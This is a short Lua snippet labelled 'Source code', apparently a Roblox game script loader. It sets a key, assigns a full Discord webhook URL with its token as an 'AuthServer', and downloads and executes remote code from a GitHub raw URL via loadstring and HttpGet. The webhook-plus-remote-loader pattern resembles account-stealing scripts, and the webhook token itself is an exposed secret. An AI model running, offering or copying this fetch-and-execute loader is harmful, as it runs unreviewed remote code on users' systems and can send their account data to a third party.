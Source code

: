 _G.Key = "zeusthe_king23"

_G.AuthServer = "https://discord.com/api/webhooks/1001399314385469441/3NfHfAJgt5PsLP0e0BT3_7CnRYQFinKNtogHTqYYox8uvGpOa2B6CO4fbWd_CAarkc89"

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()
